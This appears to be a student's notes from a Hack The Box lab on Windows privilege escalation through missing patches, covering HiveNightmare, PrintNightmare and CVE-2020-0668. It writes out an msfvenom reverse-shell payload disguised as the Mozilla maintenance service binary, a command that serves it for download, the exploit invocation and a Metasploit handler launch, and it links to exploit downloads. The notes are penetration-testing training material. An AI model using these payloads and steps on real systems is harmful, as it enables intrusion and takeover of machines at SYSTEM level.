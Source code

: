 Ensuring updates on all machines in a large corporate network is difficult.

This site is handy for searching out detailed information about Microsoft security vulnerabilities:
https://msrc.microsoft.com/update-guide/vulnerability

Some exploits may be `Remote Code Execution` vulnerabiliites, but many of them can be used
for privilege escalation as well.

#### Notable Vulnerabilities

![[Pasted image 20230107113350.png]]
![[Pasted image 20230107113411.png]]
https://doublepulsar.com/hivenightmare-aka-serioussam-anybody-can-read-the-registry-in-windows-10-7a871c465fa5

https://github.com/GossiTheDog/HiveNightmare/raw/master/Release/HiveNightmare.exe

#### Checking Permissions on the SAM File

We can check for this vulnerability using `icacls` to check permissions on the SAM file. In our case,
we have a vulnerable version as the file is readable by the `BUILTIN\Users` group:

![[Pasted image 20230107113608.png]]

Successful exploitation also requires the presence of one or more shadow copies.

Most Windows 10 Systems will have `System Protection` enabled by default which will create
periodic backups, including the shadow copy necessary to leverage this flaw.

#### Performing Attack and Parsing Password Hashes

https://github.com/cube0x0/CVE-2021-36934

![[Pasted image 20230107113829.png]]
![[Pasted image 20230107113854.png]]

#### Checking for Spooler Service

![[Pasted image 20230107114104.png]]

#### Adding Local Admin with PrintNightmare PowerShell PoC

![[Pasted image 20230107114133.png]]

Now we can import the PowerShell script and use it to add a new local admin user.

![[Pasted image 20230107114204.png]]

![[Pasted image 20230107114217.png]]

Adding a new user is "noisy", We would not want to do this on an engagement where stealth is
important. Furthermore, we would want to check with our client to ensure account creation
is within scope.

## Enumerating Missing Patches

The first step is looking at installed updates and attempting to find updates that may have been
missed, thus opening up an attack path.

#### Examining Installed Updates

![[Pasted image 20230107114702.png]]

#### Viewing Installed Updates with WMI

![[Pasted image 20230107114725.png]]

KB Update Catalog:
https://www.catalog.update.microsoft.com/Search.aspx?q=KB5000808

## CVE-2020-0668 Example

![[Pasted image 20230107115043.png]]

#### Checking Current User Privileges

![[Pasted image 20230107115125.png]]

#### Building Solution in Visual Studio

https://github.com/RedCursorSecurityConsulting/CVE-2020-0668
![[Pasted image 20230107115444.png]]

At this point we can use the exploit to create a file of our choosing in a protected folder such as
`C:\Windows\System32`. We aren't able to overwrite any protected Windows files, however.

This privileged file write needs to be chained with another vulnerability, such as `UsoDllLoader`
or `DiagHub` to load the DLL and escalate our privileges.

However, the `UsoDllLoader` technique may not work if Windows Updates are pending or currently
being installed, and the `DiagHub` service may not be available.

We can also look for any third-party software which can be leveraged, such as Mozilla Maintainence
Service. This service runs in the context of SYSTEM and is startable by unprivileged users.

#### Checking Permissions on Binary

![[Pasted image 20230107120445.png]]

#### Generating Malicious Binary

```shell-session
bluechat@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 645 bytes
Final size of exe file: 7168 bytes
```
```shell-session
bluechat@htb[/htb]$ $ python3 -m http.server 8080

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.43.13 - - [01/Mar/2022 18:17:26] "GET /maintenanceservice.exe HTTP/1.1" 200 -
10.129.43.13 - - [01/Mar/2022 18:17:45] "GET /maintenanceservice.exe HTTP/1.1" 200 -
```

#### Downloading the Malicious Binary (Note)

For this step to work we need to make two copies of the malicious.exe file.
We can just pull it over twice or do it once and make a second copy.

We need to do this because running the exploit corrupts the malicious version of
`maintenenceservice.exe` that is moved to `c:\Program Files (x86)\Mozilla Maintenance`
`Service\maintenanceservice.exe`, which we will need to account for later.

If we attempt to utilize the copied version, we will receive a `system error 216`
because the .exe file is no longer a valid binary.

![[Pasted image 20230107120848.png]]

#### Running the Exploit

```cmd-session
C:\htb> C:\Tools\CVE-2020-0668\CVE-2020-0668.exe 
	C:\Users\htb-student\Desktop\maintenanceservice.exe 
		"C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

#### Checking Permissions of New File

![[Pasted image 20230107121025.png]]

We now have (F)ull permissions on the entry.

#### Replacing File with Malicious Binary

Since we sacrificed our first binary, we can now overwrite the `maintenanceservice.exe` binary
with a good working copy of our malicious binary.

```cmd-session
C:\htb> copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

        1 file(s) copied.
```

#### Metasploit Resource Script

Save the below commands to a `Resource Script` file named `handler.rc`
![[Pasted image 20230107124135.png]]

#### Launching Metasploit wiht Resource Script

```shell-session
bluechat@htb[/htb]$ sudo msfconsole -r handler.rc

A cool little trick :)
```

#### Starting the Service

![[Pasted image 20230107124539.png]]

